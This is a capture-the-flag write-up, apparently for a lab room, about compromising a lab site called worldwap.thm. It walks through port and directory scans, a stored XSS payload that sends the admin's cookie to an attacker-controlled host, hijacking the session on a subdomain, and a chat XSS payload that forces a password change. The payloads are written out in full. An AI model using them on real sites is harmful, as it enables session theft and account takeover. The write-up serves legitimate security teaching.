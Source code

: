 # What's your name?

## Recon

First, add `worldwap.thm` to `/etc/hosts` file.

Nmap Scan:

```
sudo nmap -sS -T5 -p- 10.10.33.46
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
2651/tcp  filtered ebinsite
8081/tcp  open     blackice-icecap
32617/tcp filtered unknown
33249/tcp filtered unknown
56856/tcp filtered unknown
```

After visitng domain, we see a website with url `http://worldwap.thm/public/html`

![](images/sc1.png)

Gobuster on this url:

```
/.php                 (Status: 403) [Size: 277]
/index.php            (Status: 200) [Size: 1797]
/login.php            (Status: 200) [Size: 1785]
/register.php         (Status: 200) [Size: 2188]
/admin.php            (Status: 403) [Size: 0]
/upload.php           (Status: 403) [Size: 0]
/logout.php           (Status: 200) [Size: 154]
/mod.php              (Status: 403) [Size: 0]
/dashboard.php        (Status: 403) [Size: 0]
```

## XSS Payload and stealing cookie

We can register new user, there is also info "Your details will be reviewed by the site moderator." Also, the site has very unsecure cookies with parameter `Domain` set to `.worldwap.thm`.

We can try to inject simple XSS payload, which will connect to our server and possibly sent to us admins session cookie. We will inject it into "Name" field, the rest doesn't matter that much.

Here is the payload:

```html
<script>fetch('http://Your_IP?cookie='+btoa(document.cookie));</script>
```

Before registring our user, set a python server to listen for incoming connections:

```
python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.33.46 - - [07/May/2025 11:56:03] "GET /?cookie=UEhQU0VTU0lEPTVwM2xhYW9mZXZ0aXJlNWpwZHZ1YnB2a29h HTTP/1.1" 200 -

```

...and inject the payload. There we go, we have admins cookie. But before stealing his session, let's check our website.

After injecting we see page `login.php`:

![](images/sc2.png)

I discovers to us a new subdomain `login.worldwap.thm`. It seems that we can't login here, as it says: "User not verified." But now we have another domain, so let's add new entry to `/etc/hosts` and jump here.

## Admin session on new subdomain

Main page is empty, but in soucre code is a comment:

```html
<!-- login.php should be updated by Monday for proper redirection -->
```

Change url to `http://login.worldwap.thm/login.php` and try to login with created user. We have error saying "Invalid username or password.". But previously we gathered admins cookie, let's encode it from base64:

![](images/sc3.png)

Also remember how parameter doamin is set to `.worldwap.thm`? The cookie may be valid for discovered subdomain, so replace it here and refresh `login.worldwap.thm` page. We should land on `profile.php` page which contains first flag:

![](images/sc4.png)

## XSS in chat functionality

In navbar we can navigate to two other pages: `change_password.php` and `chat.php`. Let's check first, we can change a password providing only a new one? Capture request with burp suite:

![](images/sc5.png)

Yes, we send only one parameter, but after sending it we git message "This feature is under development and works only if you are logged in as an admin.", so we cant really reset admins password.

Let's check `chat.php` page. Straight away provide bad message like `<script>alert(1)</script>`. We got alert, so chat is also vulnerable to XSS. We can chat with someone called "Admin Bot", so maybe he is constantly reading those messages and is our admin. But first, click "Reset/Move Admin Bot to chat.php page" so he is online. Use another payload, but this time we want to make admin change his password. 

The payload looks like this:

```
<script>fetch('http://login.worldwap.thm/change_password.php', {method: 'POST', headers: {'Content-Type': 'application/x-www-form-urlencoded'}, body: 'new_password=newpassword123'});</script>
```

Wait a bit and logout from the page. Now try to use password we provided and login as admin with password provided in payload. We should be able to login as admin and get second flag.